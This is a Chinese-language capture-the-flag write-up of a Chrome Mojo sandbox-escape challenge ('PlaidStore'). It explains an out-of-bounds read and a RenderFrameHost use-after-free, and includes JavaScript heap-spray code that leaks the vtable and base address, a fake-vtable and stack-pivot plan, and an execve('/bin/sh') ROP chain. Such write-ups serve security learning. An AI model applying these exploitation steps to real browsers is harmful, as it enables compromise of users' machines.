


第一次接触浏览器pwn可能会写的很啰嗦。。。。

### 初识题目

根据dockerfile看到了启动脚本
```
#!/bin/bash

timeout 20 ./chrome --headless --disable-gpu --remote-debugging-port=1338 --enable-blink-features=MojoJS,MojoJSTest "$1"
```

推断出了启动的指令：
```
./chrome --headless --disable-gpu --remote-debugging-port=1338 --user-data-dir=./userdata --enable-blink-features=MojoJS test.html 
```

--user-data-dir=./userdata是为了使用DevTools： https://chromedevtools.github.io/devtools-protocol/

### 调试部分

方法一：
```
./chrome --headless --disable-gpu --remote-debugging-port=1338 --user-data-dir=./userdata --enable-blink-features=MojoJS test.html 

gdb attach 到浏览器进程
```

方法二：（我用的这个）

```
gdb_test.sh: 

file ./chrome

set args --headless --disable-gpu --remote-debugging-port=1338 --user-data-dir=./userdata --enable-blink-features=MojoJS test.html

set follow-fork-mode parent

```
gdb -x gdb_test.sh

### Patch分析

```
+++ b/third_party/blink/public/mojom/plaidstore/plaidstore.mojom
@@ -0,0 +1,11 @@
+module blink.mojom;
+
+// This interface provides a data store
+interface PlaidStore {
+
+  // Stores data in the data store
+  StoreData(string key, array<uint8> data);
+
+  // Gets data from the data store
+  GetData(string key, uint32 count) => (array<uint8> data);
+};
```
首先加入了一个interface，有StoreData、GetData两个功能。

```
+#include "content/browser/plaidstore/plaidstore_impl.h"
+#include "content/public/browser/render_frame_host.h"
+#include "mojo/public/cpp/bindings/self_owned_receiver.h"
+
+namespace content {
+
+PlaidStoreImpl::PlaidStoreImpl(
+    RenderFrameHost *render_frame_host)
+    : render_frame_host_(render_frame_host) {}
+
+PlaidStoreImpl::~PlaidStoreImpl() {}
+
+void PlaidStoreImpl::StoreData(
+    const std::string &key,
+    const std::vector<uint8_t> &data) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    return;
+  }
+  data_store_[key] = data;
+}
+
+void PlaidStoreImpl::GetData(
+    const std::string &key,
+    uint32_t count,
+    GetDataCallback callback) {
+  if (!render_frame_host_->IsRenderFrameLive()) {
+    std::move(callback).Run({});
+    return;
+  }
+  auto it = data_store_.find(key);
+  if (it == data_store_.end()) {
+    std::move(callback).Run({});
+    return;
+  }
+  std::vector<uint8_t> result(it->second.begin(), it->second.begin() + count);
+  std::move(callback).Run(result);
+}

```

以及PlaidStoreImpl的两个成员：

```
+class RenderFrameHost;
+
+class PlaidStoreImpl : public blink::mojom::PlaidStore {

    .....

+ private:
+  RenderFrameHost* render_frame_host_;
+  std::map<std::string, std::vector<uint8_t> > data_store_;
+};

```

###### PlaidStoreImpl

```
pwndbg> x/10gx 0x3bcb6cdfe720
0x3bcb6cdfe720:	0x000055555f50a7a0 <= vtable    	0x00003bcb6cd45400 <= render_frame_host
0x3bcb6cdfe730:	0x00003bcb6ccd2870 <= data_store_	0x00003bcb6ccd2870
```


###### StoreData

他就是获取你提供的key，对应了一个vector的data。

内存布局：
```
pwndbg> x/10gx 0x00003bcb6ccd2870
0x3bcb6ccd2870:	0x0000000000000000       	0x0000000000000000
0x3bcb6ccd2880:	0x00003bcb6cdfe738      	0x000055555824ff01
0x3bcb6ccd2890:	0x0000000000616161 <= key	0x0000000000000000
0x3bcb6ccd28a0:	0x0300000000000000      	0x00003bcb6cddf740
0x3bcb6ccd28b0:	0x00003bcb6cddf750 <= data	0x00003bcb6cddf750
```

```
pwndbg> x/10gx 0x00003bcb6cddf740
0x3bcb6cddf740:	0x3131313131313131	0x3131313131313131
0x3bcb6cddf750:	0xffffc40000000002	0xfffffffd55553ec2
0x3bcb6cddf760:	0xffffc40000000001	0xfffffffd55553ec2
0x3bcb6cddf770:	0xffffc40000000002	0xfffffffd55553ec2
0x3bcb6cddf780:	0xffffc40000000002	0xfffffffd55553ec2
```

###### getdata

提供一个key，根据key查找对应的data，找到后返回count长度的data。这里存在一个OOB，在该函数中并没有检查count，例如：我们可以store：0x10,get：0x100，这样就会多些漏出0xf0的数据。

### 做题环节

由于题目提供的chrome是有符号表的，我们可以直接在函数处下断点：

在content::PlaidStoreImpl::Create处下断点：

取关键函数来做个注释：

```
   0x5555591ac4a0    mov    rbx, rdi
   0x5555591ac4a3    mov    edi, 0x28
   0x5555591ac4a8    call   0x55555ac584b0 <0x55555ac584b0> => operator new
 
   0x5555591ac4ad    lea    rcx, [rip + 0x635e2ec] => <vtable for content::PlaidStoreImpl+16>
   0x5555591ac4b4    mov    qword ptr [rax], rcx => vtable
   0x5555591ac4b7    mov    qword ptr [rax + 8], rbx => render_frame_host
   0x5555591ac4bb    lea    rcx, [rax + 0x18]
   0x5555591ac4bf    xorps  xmm0, xmm0
   0x5555591ac4c2    movups xmmword ptr [rax + 0x18], xmm0
   0x5555591ac4c6    mov    qword ptr [rax + 0x10], rcx
   0x5555591ac4ca    mov    qword ptr [rbp - 0x20], rax
```

```
pwndbg> x/10gx 0x3bcb6cdfe720
0x3bcb6cdfe720:	0x000055555f50a7a0 <= vtable    	0x00003bcb6cd45400 <= render_frame_host
0x3bcb6cdfe730:	0x00003bcb6ccd2870 <= data_store_	0x00003bcb6ccd2870
```

##### 利用OOB来做leak

我们通过for循环在store之后来进行new PlaidStoreImpl，最后在get来泄漏内存，这样主要是为了使PlaidStoreImpl在分配的时候和data相邻，这样我们就可以泄漏出vtable地址，我们在调试的时候可以看到vtable是0x7a0结尾的，我们在泄漏的内容中找到对应的地址，减去偏移就可以得到chrome的基地址。
```
    var ps_list = [];
    var code_leak = 0;
    var render_leak;
    for(let i = 0; i < 100; i++){
        var tmp_ps_ptr = new blink.mojom.PlaidStorePtr();
        Mojo.bindInterface(blink.mojom.PlaidStore.name, mojo.makeRequest(tmp_ps_ptr).handle, "context", true);
        await tmp_ps_ptr.storeData("aaaa", new Uint8Array(0x28).fill(0x30+i))
        ps_list.push(tmp_ps_ptr);
    }
    for(let i = 0; i < 100; i++){
        if(code_leak != 0){
            break;
        }
        var tmp_ps_ptr = ps_list[i];
        let r = (await tmp_ps_ptr.getData("aaaa", 0x100));
        let leak = r.data;
        for(let i = 0x28; i < 0x100; i = i + 8){
            let tmp_leak = b2i(leak.slice(i, i+8));
            if(hex(tmp_leak & 0xfff) == "0x7a0" ){
                code_leak = tmp_leak;
                i += 8;
                render_leak = b2i(leak.slice(i, i+8));
                success_value("render_frame_host: ", render_leak);
                break;
            }
        }
    }
    if(code_leak == 0){
        throw 1;
    }
    var code_base = code_leak-0x9fb67a0;
    success_value('code base: ', code_base);
```

###### 题外话

在泄漏的时候发现一个很奇怪的地方，填充到内存的内容为0x3131313131313131，但是泄漏之后的结果为0x31313131313000

后来调查发现：Javascript将所有数字表示为64位双精度IEEE 754浮点数(请参阅ECMAscript规范的8.5节。)可以精确编码2 ^ 53以下的所有正整数。较大的整数会截断其最低有效位。
所以内存中的填充值会出现这样的结果，但是函数地址一般为7位16进制数也就是56位，就不会出现这样的问题。


### UAF

UAF是由于store和get中的这个代码导致的：
```
if (!render_frame_host_->IsRenderFrameLive())
```
这涉及到了RenderFrameHost的生命周期。一般而言，如果一个interface并不是RenderFrameHost拥有的，那么这个interface不应该存储RenderFrameHost指针，而是应该存储frame ID，由frame ID去索引RenderFrameHost。

```
+// static
+void PlaidStoreImpl::Create(
+    RenderFrameHost *render_frame_host,
+    mojo::PendingReceiver<blink::mojom::PlaidStore> receiver) {
+  mojo::MakeSelfOwnedReceiver(std::make_unique<PlaidStoreImpl>(render_frame_host),
+                              std::move(receiver));
+}
```

官话就是：
- 由于题目创建PlaidStoreImpl使用的是MakeSelfOwnedReceiver，这使得它是一个StrongBinding，这意味着它掌控它自己，只有当interface关闭了或者出现通信错误了才会调用析构函数。这样的话，如果我们先释放了RenderFrameHost，再在PlaidStoreImpl中调用的话，就是一个UaF漏洞了。通过伪造vtable，我们可以在调用render_frame_host_->IsRenderFrameLive()时控制pc。

说人话就是：
- 我们在父frame中创建一个子frame，将子frame和PlaidStoreImpl绑定，之后在父frame中将子frame杀掉，此时与子frame绑定的中的RenderFrameHost会被释放，但是并不会调用PlaidStoreImpl的析构函数，我们依然可以在PlaidStoreImpl中调用RenderFrameHost，这样就导致了uaf。

##### 利用前夕

我们在content::RenderFrameHostFactory::Create处下个断点：

```
 0x0000555559075a50 <+112>:   jmp    0x555559075aca <content::RenderFrameHostFactory::Create(content::SiteInstance*, scoped_refptr<content::RenderViewHostImpl>, content::RenderFrameHostDelegate*, content::Fram
eTree*, content::FrameTreeNode*, int, int, bool)+234>
   0x0000555559075a52 <+114>:   mov    edi,0xc28
   0x0000555559075a57 <+119>:   call   0x55555ac584b0 <operator new(unsigned long, std::nothrow_t const&)>
   0x0000555559075a5c <+124>:   mov    rdi,rax
   0x0000555559075a5f <+127>:   mov    rax,QWORD PTR [r14]
   0x0000555559075a62 <+130>:   mov    QWORD PTR [rbp-0x38],rax
   0x0000555559075a66 <+134>:   mov    QWORD PTR [r14],0x0
   0x0000555559075a6d <+141>:   sub    rsp,0x8
   0x0000555559075a71 <+145>:   movzx  eax,BYTE PTR [rbp+0x20]
   0x0000555559075a75 <+149>:   lea    rdx,[rbp-0x38]
   0x0000555559075a79 <+153>:   mov    r14,rdi
   0x0000555559075a7c <+156>:   mov    rsi,rbx
```
可以看到RenderFrameHost对象的大小是0xc28，我们只要申请一堆0xc28大小的ArrayBuffer就有可能会拿到被释放的对象。

之后我们再回到上面的store函数，来看看if (!render_frame_host_->IsRenderFrameLive())的执行效果：

```
0x3c581c0 <store>:  push   rbp
0x3c581c1 <store>+1>:   mov    rbp,rsp
0x3c581c4 <store>+4>:   push   r15
0x3c581c6 <store>+6>:   push   r14
0x3c581c8 <store>+8>:   push   r13
0x3c581ca <store>+10>:push   r12
0x3c581cc <store>+12>:push   rbx
0x3c581cd <store>+13>:sub    rsp,0x18
0x3c581d1 <store>+17>:mov    r14,rdx
0x3c581d4 <store>+20>:mov    r13,rsi
0x3c581d7 <store>+23>:mov    r15,rdi
0x3c581da <store>+26>:mov    rdi,QWORD PTR [rdi+0x8] => rdi是Impl结构的地址，根据上文可以知道rdi+8存储的是render_frame_host的值，存储到rdi
0x3c581de <store>+30>:mov    rax,QWORD PTR [rdi] => 将vtable存储到rax
0x3c581e1 <store>+33>:call   QWORD PTR [rax+0x160] => rax+0x160是IsRenderFrameLive的地址
0x3c581e7 <store>+39>:test   al,al
0x3c581e9 <store>+41>:je     0x3c58294 <store>+212>
```

偷大佬一个图（看起来会形象一些）：




整理下思路：
- 1、kill掉子frame将render_frame_host_释放
- 2、在render_frame_host_结构中伪造vtable，布置rop
- 3、将vtable修改为fake vtable的地址
- 4、xchg栈劫持

xchg gadget如下：

rax处此时为fake vtable的地址，也就是我们布置好的rop，这样就可以执行我们的rop链。

rop可以使用syscall
```
pop rdi; ret;
"/bin/sh\x00"
pop rsi; ret;
0
pop rdx; ret;
0
pop rax; ret;
59
syscall
```


###### 注意的点

- 首先我们的fake都是对子frame中进行操作的，所以我们需要在子frame中也leak一次render_frame_host_的地址。

- 在申请回 render_frame_host_ 时要使用storeData不可以用new ArrayBuffer的方式，因为new ArrayBuffer是在renderer的内存空间中分配的，而我们释放了的render_frame_host_结构体，它的内存在browser的内存空间中。在题目中只有PlaidStoreImpl的storeData能够在浏览器层分配内存。

### exp:



[exp](./exp.html)


